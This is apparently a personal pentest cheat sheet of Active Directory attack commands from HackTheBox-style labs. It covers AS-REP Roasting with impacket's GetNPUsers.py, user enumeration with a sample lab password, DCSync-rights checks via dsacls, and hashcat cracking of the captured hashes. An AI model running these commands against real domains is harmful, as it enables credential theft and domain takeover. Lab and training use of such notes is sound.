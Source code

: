 
- ***Try AS-REP Roasting*** *where if an account has  access to resources without pre auth*
	- Requirement: Users list, `GetNPUsers.py` from impacket tool

```bash

for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip [dc_ipaddr] [Domain_name]/${user} | grep -v Impacket;done

# Example: 
# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 
#  htb/${user} | grep -v Impacket;done

# Single usage
GetNPUsers.py -dc-ip [IP] domain_name/user

# Example
# python GetNPUsers.py  -dc-ip 10.10.10.175 egotistical-bank.local/fsmith



# /usr/share/doc/python3-impacket/examples/GetNPUsers.py
```


***Got one user > Always Check for remaining users***


- ***Get all the users on AD***
	- Requirement: Username and password of a valid user.
```bash
# Get all users on AD
GetADUsers.py -all -dc-ip [IP] [Domain]/[username]:[Password]

# Example
# GetADUsers.py -all -dc-ip 10.10.10.175 egotistical-bank.local/fsmith:Thestrokes23
```

- [ ] ***Check if the user has DCSync Rights***
	```bash
	# Extract ACLs info
	
	dsacls "DC=htb,DC=local" > dsacls.txt
	
	Get-Content dsacls.txt | findstr "Replicating Directory Changes"
	# or
	Get-Content dsacls.txt | Select-String -Pattern "Replicating Directory Changes"
	```



<center><i>If found hash then....</i></center>

```bash
hashcat -m 18200 hash.txt /rockyou.txt --force
```
